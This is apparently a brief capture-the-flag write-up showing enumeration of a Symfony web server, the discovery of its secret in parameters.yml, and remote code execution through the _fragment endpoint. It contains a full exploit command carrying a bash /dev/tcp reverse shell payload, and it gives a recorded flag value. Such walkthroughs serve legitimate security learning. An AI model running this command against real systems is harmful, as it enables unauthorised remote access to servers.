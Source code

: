 nmap scan

![image](https://user-images.githubusercontent.com/105762605/228873667-dbbd8fc5-07f7-4dad-982f-8772088e444d.png)

dirb scan --- found robots.txt

![image](https://user-images.githubusercontent.com/105762605/228874687-58d63b13-9dcc-40f2-9e59-27cd1919e656.png)

Access robots.txt, app_dev.php

![image](https://user-images.githubusercontent.com/105762605/228874390-91df6a53-dbf6-4fdb-b285-8a99328a1892.png)

Symfony platform is used, found app/config/parameters.yml

![image](https://user-images.githubusercontent.com/105762605/228877123-0a180b72-9f23-4b50-aa4d-13b207437288.png)

Based on https://github.com/ambionics/symfony-exploits/blob/main/secret_fragment_exploit.py and used the key above to reverse the shell

python attack2.py 'http://ip/_fragment' --method 2 --secret 'keys' --algo 'sha256' --internal-url 'http://ip/_fragment' --function system --parameters "bash -c 'bash -i >& /dev/tcp/ip/80 0>&1'"

![image](https://user-images.githubusercontent.com/105762605/228889897-0807e507-0659-484c-a21d-de693cbc9663.png)

Go to dirctory /home/benoit and find first flag: 813365d74b4ffc9f7052e9e888d6396c

![image](https://user-images.githubusercontent.com/105762605/228890553-0dfca038-3a70-4ad5-a2c3-ecee9e1e9489.png)

![image](https://user-images.githubusercontent.com/105762605/228894905-5ac83004-505a-489f-80ac-5f7cd1206159.png)



